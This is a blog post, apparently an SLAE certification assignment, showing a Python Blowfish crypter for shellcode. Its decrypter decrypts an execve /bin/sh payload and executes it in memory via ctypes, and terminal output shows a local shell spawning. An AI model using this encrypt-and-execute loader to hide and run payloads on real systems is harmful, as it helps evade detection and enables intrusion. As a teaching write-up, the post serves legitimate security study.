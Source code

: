 ```yaml
---
layout: post
title: Custom Encrypter
date: 2021-01-19 20:30:00
categories: posts
comments: false
en: true
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. 

According to wikipedia, "In cryptography, encryption is the process of encoding information. This process converts the original representation of the information, known as plaintext, into an alternative form known as ciphertext. Ideally, only authorized parties can decipher a ciphertext back to plaintext and access the original information. Encryption does not itself prevent interference but denies the intelligible content to a would-be interceptor."

Today we are going to dive a little deep within Custom Encryption. 

The last assignment from the seven requires the creation of a Custom Encrypter, written in any language that can encrypt and decrypt shellcode. In addition, the decrypter should execute the shellcode.

#### Theory

During the length of this post, the crypter used will be [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)). Moreover, the language employed will be Python, with the use of the library [pycrypto](https://pypi.org/project/pycrypto/)

##### Encrypter

```term
# Author: SLAE-27812 (Felipe Winsnes)

from Crypto.Cipher import Blowfish
import sys

if len(sys.argv) != 3:

   print "[*] Example: echo -ne <shellcode between quotes> | python encrypt.py <key> <IV number>" + "\r\n"
   sys.exit(1)

obj = Blowfish.new(sys.argv[1], Blowfish.MODE_CBC, sys.argv[2])

message = sys.stdin.read()

ciphertext = obj.encrypt(message)

crypted = ""

for x in bytearray(ciphertext):
  crypted += '\\x'
  ciphertext = '%02x' % x
  crypted += ciphertext

print '"' + crypted + '"'
```

As you can see, the shellcode must be printed and piped as an argument. Furthermore, the key and the IV must be parsed as arguments as well. In addition, the IV number should be 
specifically 8, as IV takes an 8 byte binary argument in such cryption schema.

Let's encode some execve shellcode that executes /bin/sh. The key will be '@-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ' and the IV 'ZYf3J4hM'. Furthermore, it is essential to note that the shellcode has to be divisible by 8. Due to this, the chosen shellcode has been parsed with a few nops. The original size was 22, it should be now 24.

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ python encrypt.py 
[*] Example: echo -ne <shellcode between quotes> | python encrypt.py <key> <IV number>

whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80\x90\x90" | python encrypt.py @-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ ZYf3J4hM 
"\x24\x5c\xc5\x8c\x39\x23\x01\x95\xfd\x4c\x76\x81\x92\xb4\x97\x18\x94\xb7\xf1\x4e\x7e\xb2\xd3\x42"
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$
```

With no NOPS, the following error is given:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$ echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80" | python encrypt.py @-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ ZYf3J4hM 
Traceback (most recent call last):
  File "encrypt.py", line 15, in <module>
    ciphertext = obj.encrypt(message)
  File "/usr/lib/python2.7/dist-packages/Crypto/Cipher/blockalgo.py", line 244, in encrypt
    return self._cipher.encrypt(plaintext)
ValueError: Input strings must be a multiple of 8 in length
whitecr0wz@SLAE:~/assembly/assignments/Assignment_7$
```

##### Decrypter

```term
# Author: SLAE-27812 (Felipe Winsnes)

from ctypes import *
from Crypto.Cipher import Blowfish
import sys

if len(sys.argv) != 3:

   print "[*] Example: python decrypt.py <key> <IV number>" + "\r\n"
   sys.exit(1)

decrypted = ""

ciphertext = ("\x24\x5c\xc5\x8c\x39\x23\x01\x95\xfd\x4c\x76\x81\x92\xb4\x97\x18\x94\xb7\xf1\x4e\x7e\xb2\xd3\x42")

obj = Blowfish.new(sys.argv[1], Blowfish.MODE_CBC, sys.argv[2])

decrypt = obj.decrypt(ciphertext)
shellcode = decrypt

print "Original shellcode in hex escape sequence:"

for x in bytearray(decrypt):

  decrypted += '\\x'
  decrypt = '%02x' % x
  decrypted += decrypt

print '"' + (decrypted) + '"'

buffer = create_string_buffer(shellcode)
print " "
boom = cast(buffer, CFUNCTYPE(c_void_p))

boom()
```

#### EndGame

```term
whitecr0wz@SLAE:~/assignments/Assignment_7$ python decrypt.py 
[*] Example: python decrypt.py <key> <IV number>

whitecr0wz@SLAE:~/assignments/Assignment_7$ python decrypt.py @-YEYCoy#86s+qXIngZwHe8X8tl4-59ADmJQ ZYf3J4hM 
Original shellcode in hex escape sequence:
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80\x90\x90"
 
$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/Assignment_7).
